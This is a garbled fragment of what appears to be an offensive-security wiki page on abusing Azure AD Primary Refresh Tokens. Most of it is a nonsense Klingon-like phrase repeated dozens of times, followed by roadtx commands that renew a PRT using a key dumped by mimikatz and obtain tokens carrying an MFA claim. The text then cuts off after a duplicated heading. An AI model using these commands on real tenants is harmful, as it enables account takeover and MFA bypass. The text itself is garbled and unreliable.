 vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta' vItlhutlh, vaj vajta'
```bash
roadtx prt -a renew --prt <PRT From mimikatz> --prt-sessionkey <clear key from mimikatz>
```
{% endcode %}

* **Qap tokens** jatlh interactive browser vItlhutlh `roadtx browserprtauth` vaj. vaj `roadtx describe` command, access token MFA claim vItlhutlh because PRT vaj jatlh MFA claim.
```bash
roadtx browserprtauth
roadtx describe < .roadtools_auth
```
<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Option 3 - roadrecon using derived keys

Having the context and the derived key dumped by mimikatz, it's possible to use roadrecon to generate a new signed cookie with:

{% code overflow="wrap" %}#### Option 3 - roadrecon using derived keys

